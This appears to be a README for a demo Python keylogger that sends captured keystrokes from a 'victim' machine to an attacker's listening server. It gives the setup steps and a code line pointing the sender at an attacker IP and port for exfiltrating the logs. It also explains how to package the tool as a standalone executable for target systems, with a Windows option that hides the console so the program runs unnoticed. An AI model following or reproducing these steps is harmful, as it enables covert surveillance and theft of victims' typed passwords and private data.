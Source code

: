 # Demo Python Keystroke Logging  

A very basic implementation of keystroke logging supporting log transfer between attacker and victim machines.     

## Installation

Use the package manager [pip](https://pip.pypa.io/en/stable/) to install requirements.

```bash
python3 -m pip install -r requirements.txt
```

Edit attacker/receiver host IP/Domain in main.py.

```python
sender = transport.Sender(remote="http://<IP>:<PORT>", logfile=logfile)

```
Start keylogger with:

```bash
python3 main.py
```

## Building Executables
 
Use [PyInstaller](https://pyinstaller.org/en/stable/installation.html) to build executables for target systems. Install with:

```bash
python3 -m pip install pyinstaller
```

With src directory as the root folder, build the executable (on linux-based or windows hosts) with:
```bash
pyinstaller --onefile main.py
```
or with:
```bash
python3 -m PyInstaller --onefile ./main.py
```

Specifically on windows hosts you can force the command prompt to stay in the background with:

```powershell
python -m PyInstaller --noconsole --onefile .\main.py
```

## Listening Server

In the server directory, start sample server with:
```bash
python3 server.py <PORT>
```
Note that a file upload POST request is received in sample intervals. Server is currently aimed for testing and logging and not for actually storing and managing received log files. 
